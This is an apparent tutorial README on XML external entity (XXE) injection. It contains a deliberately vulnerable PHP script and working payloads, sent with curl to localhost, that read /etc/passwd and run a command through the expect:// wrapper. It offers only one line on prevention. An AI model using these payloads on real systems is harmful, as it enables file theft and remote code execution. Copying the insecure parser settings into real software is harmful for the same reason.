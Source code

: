 # XXE-Basics
Basic Overview of XXE

XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.

Some applications use the XML format to transmit data between the browser and the server. Applications that do this virtually always use a standard library or platform API to process the XML data on the server. XXE vulnerabilities arise because the XML specification contains various potentially dangerous features, and standard parsers support these features even if they are not normally used by the application.

XML (Extensible Markup Language) is a very popular data format. It is used in everything from web services (XML-RPC, SOAP, REST) through documents (XML, HTML, DOCX) to image files (SVG, EXIF data). To interpret XML data, an application needs an XML parser (also known as the XML processor).

The easiest and safest way to prevent against XXE attacks it to completely disable Document Type Definitions (DTDs).

Vulnerable PHP Code 

```
<?php 
    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
    $creds = simplexml_import_dom($dom);
    $user = $creds->user;
    $pass = $creds->pass;
    echo "You have logged in as user $user";
?> 
```

Simple XML Data

```
<creds>
    <user>Ed</user>
    <pass>mypass</pass>
</creds>

```
Send the Request

```
curl -d @xml.txt http://127.0.0.1/xxe.php

```

Expliot XXE to Retrieve /etc/passwd

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>

```
Send the Request

```
curl -d @xml.txt http://127.0.0.1/xxe.php

```
Expliot XXE to gian RCE

Requires the PHP expect module to be enabled

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds

```

Send the Request

```
curl -d @xml.txt http://127.0.0.1/xxe.php

```




